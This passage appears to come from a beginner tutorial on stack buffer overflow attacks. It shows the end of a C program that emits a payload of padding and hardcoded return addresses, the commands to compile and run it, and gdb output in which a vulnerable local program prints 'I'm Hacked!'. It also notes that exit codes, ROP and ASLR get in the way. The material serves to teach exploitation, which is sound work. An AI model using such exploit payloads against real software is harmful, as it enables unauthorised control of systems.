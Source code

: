 ```0xffffd220``` : 28 ```\x90``` as padding
        }
        printf("\x60\x2f\xe3\xf7");//address to printf
        printf("\xa1\x83\x04\x08");//address to exit
        printf("\x48\xd2\xff\xff");//address to print message
        printf("I'm Hacked!\n");

        return 0;
}
```

Then compile it and save to a file ```hack.txt```

```shell
-bash-4.2$ gcc -o hack hack.c                                                                                      
-bash-4.2$ ./hack > hack.txt
```

Finally use ```gdb``` to test it!

```
(gdb) r < hack.txt 
Starting program: basic < hack.txt
Hi, I'm server.
you entered: ????????????????????????????`/{H?I'm Hacked!
I'm Hacked![Inferior 1 (process 41057) exited with code 0111]
```
**Note** At the end of output, it says program exited with code 0111. This means program doesn't exit normally. This is because the ```exit``` function also use ```esp``` as exit code, but in our program ```esp``` saves address to message. To overcome this problem, we need to use ROP(Return-Oriented-Programming) technique. See following posts!

Last but not least. If you test this attack without ```gdb```, you'll get 

```
-bash-4.2$ ./basic < hack.txt 
Hi, I'm server.
you entered: ????????????????????????????`/{H?I'm Hacked!
Segmentation fault (core dumped)
```
This is because the so-called ASLR(Address Space Layout Randomization) defense technique. We'll talk about how to overcome this defense in following posts. 

And this ends the very basic Buffer Overflow Attack. Hope you enjoy it!
